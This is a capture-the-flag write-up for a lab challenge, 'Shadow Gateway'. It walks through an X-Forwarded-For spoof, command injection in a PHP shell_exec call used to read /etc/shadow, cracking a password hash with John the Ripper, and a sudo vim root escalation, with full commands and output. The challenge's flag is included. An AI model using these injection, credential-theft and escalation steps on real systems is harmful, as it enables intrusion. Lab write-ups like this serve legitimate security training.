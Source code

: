 ## Shadow Gateway

## Description
```
We got intel about the internal-network of a notorious hacker group. 
Their network, accessible only from '192.168.1.0/24', has intercepted crucial documents, including a CTF flag. 

Can you recover the flag?
```

## Flag Format
```
TH{UUID}
```

Starting off with recon you should detect 2 open ports. <br/>
```sh
kali@kali nmap -sV $IP

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-23 16:33 CET
Nmap scan report for $IP

Host is up (0.00031s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
80/tcp  open  http    nginx 1.25.2
MAC Address: 00:0C:29:00:DE:DE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.26 seconds
```

Taking a look at the website. <br/>
![grafik](https://github.com/CTF-Citadel/challenges/assets/110562298/034c85ff-385a-4ec1-90a7-b171e036a217)

Seeing this error message and looking at the description, anybody should know that this either means spoofing your IP address to `192.168.1.101` or adding some kind of request header to `192.168.1.101`. <br/>

Knowing that request headers are easier to forge you should open the website in Burp Suite or any other utility. <br/>
Using the `Intercept` option you can reload the webpage. <br/>
Now you add the following reuqest-header `X-Forwarded-For: 192.168.1.101`. <br/>

Seems like this worked. <br/>
![grafik](https://github.com/CTF-Citadel/challenges/assets/110562298/c85badea-589b-4dda-8709-61dbaeaf9529)

Inputing just the letter `a` we receive the following output. <br/>
![grafik](https://github.com/CTF-Citadel/challenges/assets/110562298/ac68f542-b6c3-494d-9836-3d77f83a5011)

After trying around some things you could maybe input `ls -R` which grants you the result below. <br/>
```php
index.php:    $searchResults = shell_exec("ls /opt/filestash/ | grep " . $userInput);
index.php:    } elseif (isset($_POST["crypto_code"])) {
```

This should let you know that in the function below `$userInput` is basically the input in the searchbar. <br/>
```php
shell_exec("ls /opt/filestash/ | grep " . $userInput)
```

This also gets you the information that you can basically do a command injection using shell escape. <br/>

To do this we can simply add `|`. <br/>
```sh
abc | whoami

www-data
```

Seems like we got a working command execution. <br/>
After some trying around you should be able to find that you can read `/etc/shadow`. <br/>
```sh
abc | cat /etc/shadow

root:*:19619:0:99999:7:::
daemon:*:19619:0:99999:7:::
bin:*:19619:0:99999:7:::
sys:*:19619:0:99999:7:::
sync:*:19619:0:99999:7:::
games:*:19619:0:99999:7:::
man:*:19619:0:99999:7:::
lp:*:19619:0:99999:7:::
mail:*:19619:0:99999:7:::
news:*:19619:0:99999:7:::
uucp:*:19619:0:99999:7:::
proxy:*:19619:0:99999:7:::
www-data:*:19619:0:99999:7:::
backup:*:19619:0:99999:7:::
list:*:19619:0:99999:7:::
irc:*:19619:0:99999:7:::
_apt:*:19619:0:99999:7:::
nobody:*:19619:0:99999:7:::
h4ckt1v1st:$y$j9T$6RYZKUhhvv5rI6/k47xrK1$iODN9FWT5OKOwMzxVctjnjqh1mRZrl5rzu3ZOCCx7zB:19684:0:99999:7:::
systemd-network:!*:19684::::::
systemd-timesync:!*:19684::::::
messagebus:!:19684::::::
sshd:!:19684::::::
```

Getting this we can use some linux utility to crack the hash of the user `h4ckt1v1st`. <br/>
After copying `$y$j9T$6RYZKUhhvv5rI6/k47xrK1$iODN9FWT5OKOwMzxVctjnjqh1mRZrl5rzu3ZOCCx7zB` to `hash.txt` I used `john the ripper` to bruteforce the hash. <br/>
```sh
kali@kali john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
lekkerding       (?)     
1g 0:00:00:19 DONE (2023-11-23 16:35) 0.05104g/s 514.5p/s 514.5c/s 514.5C/s sandara..clarke
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> [!NOTE]
> `$y` at the beginning of the hash should indicate that the following format is required for cracking `--format=crypt`.
> There are different utilities like `hash-identifier` to identify which hash is being used.

After getting the password `lekkerding` I was able to connect to the machine using `ssh` on my kali. <br/>
```sh
kali@kali ssh h4ckt1v1st@$IP                        
------------------------------------
h4ckt1v1st@8dd46fe2e6ff:~$ whoami
h4ckt1v1st
```

After getting the shell you should try some basic linux privilege escalation. <br/>
```sh
h4ckt1v1st@8dd46fe2e6ff:~$ sudo -l
Matching Defaults entries for h4ckt1v1st on 8dd46fe2e6ff:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User h4ckt1v1st may run the following commands on 8dd46fe2e6ff:
    (root) NOPASSWD: /usr/bin/vim
```

using `sudo -l` you can see that you got elevated privileges for using `vim`. <br/>
You can now go to [GTFOBins](https://gtfobins.github.io/) to check for privilege escalation using the `vim` binary. <br/>

On the website you should be able to find a working exploit to get a shell using `vim`. <br/>
```sh
h4ckt1v1st@8dd46fe2e6ff:~$ sudo vim -c ':!/bin/sh'

$ whoami
root
```

Now that we are `root` we should easily be able to find the flag in `/root/goldnugget.txt`. <br/>
```sh
$ ls -la /root/
total 24
drwx------ 1 root root 4096 Nov 23 14:54 .
drwxr-xr-x 1 root root 4096 Nov 23 14:54 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Nov 23 14:54 .ssh
-rw-r--r-- 1 root root   37 Nov 23 14:54 goldnugget.txt

$ cat /root/*
a7960b0d-505b-43de-94d2-55b2376abad5
```

This concludes this challenge. 
